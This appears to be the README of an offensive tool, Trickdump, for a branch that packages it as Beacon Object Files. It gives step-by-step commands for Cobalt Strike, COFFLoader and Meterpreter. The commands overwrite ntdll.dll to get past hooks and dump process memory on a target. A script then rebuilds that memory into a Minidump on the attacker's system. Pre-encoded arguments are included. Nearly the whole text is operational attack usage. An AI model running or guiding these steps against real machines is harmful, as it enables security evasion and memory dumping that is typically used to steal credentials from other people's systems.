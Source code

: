 # Trickdump - "bof-flavour" branch

This branch implements the same functionality as the main branch but using BOFs (Beacon Object Files).

You can execute the files using Cobalt Strike, TrustedSec's [COFFLoader](https://github.com/trustedsec/COFFLoader) or Meterpreter's [bofloader module](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-executebof-command.html).


-----------------------------------------

## Cobalt Strike

You can execute the BOF files after importing each aggressor script:

![bof1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF1.png)

You can use use an argument for overwriting ntdll.dll:
- "disk": Using a DLL already on disk. The default path is "C:\Windows\System32\ntdll.dll".    
- "knowndlls": Using the KnownDlls folder.
- "debugproc": Using a process created in debug mode. The default process is "c:\windows\system32\calc.exe".

```
lock <OVERWRITE_TECHNIQUE>
```

![bof2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF2.png)

```
shock <OVERWRITE_TECHNIQUE>
```

![bof3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF3.png)

```
barrel <OVERWRITE_TECHNIQUE>
``` 

![bof4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF4.png)


I could not create a ZIP file using BOF files so the memory region dumps are created in a directory with a random name.

Use the updated *create_dump.py* script to generate the Minidump file in your attack system using the *-d* parameter for the directory path:

```
python3 create_dump.py [-l LOCK_JSON] [-s SHOCK_JSON] [-b BARREL_JSON] [-d BARREL_DIRECTORY] [-o OUTPUT_FILE]
```

![bof5](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF5.png)

If you prefer to generate all the files at the same time you can run Trick instead:

```
trick <OVERWRITE_TECHNIQUE>
``` 

![bof6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF6.png)

![bof7](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF7.png)


-----------------------------------------

## COFFLoader

```
COFFLoader64.exe go <BOF_FILE> <OVERWRITE_TECHNIQUE>
```

The argument to overwrite the ntdll library must be generated using COFFLoader's [beacon_generate.py script](https://github.com/trustedsec/COFFLoader/blob/main/beacon_generate.py):
- "disk": Use the value 09000000050000006469736b00
- "knowndlls": Use the value 0e0000000a0000006b6e6f776e646c6c7300
- "debugproc": Use the value 0e0000000a000000646562756770726f6300
  
Examples running each one with a differente overwrite technique:

```
COFFLoader64.exe go lock_bof.o 09000000050000006469736b00
```

![bof8](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF8.png)

```
COFFLoader64.exe go shock_bof.o 0e0000000a0000006b6e6f776e646c6c7300
```

![img9](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF9.png)

```
COFFLoader64.exe go barrel_bof.o 0e0000000a000000646562756770726f6300
```

![img10](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF10.png)

And create the Minidump file:

![img11](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF11.png)

Or create all at the same time with Trick:

```
COFFLoader64.exe go trick_bof.o <OVERWRITE_TECHNIQUE>
```

![img12](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF12.png)

![img13](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF13.png)

--------------------------------------

## Meterpreter's bofloader module

You can run the BOF files in your Meterpreter session after loading the execute_bof module and using "--format-string z <technique>" to use a ntdll overwrite technique:

```
load bofloader
execute_bof lock_bof.o <OVERWRITE_TECHNIQUE>
execute_bof shock_bof.o <OVERWRITE_TECHNIQUE>
execute_bof barrel_bof.o <OVERWRITE_TECHNIQUE>
```

![img14](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF14.png)

Then create the Minidump file:

![img15](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF15.png)

The same happens with the Trick BOF:

```
execute_bof trick_bof.o <OVERWRITE_TECHNIQUE>
```

![img16](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF16.png)

![img17](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF17.png)
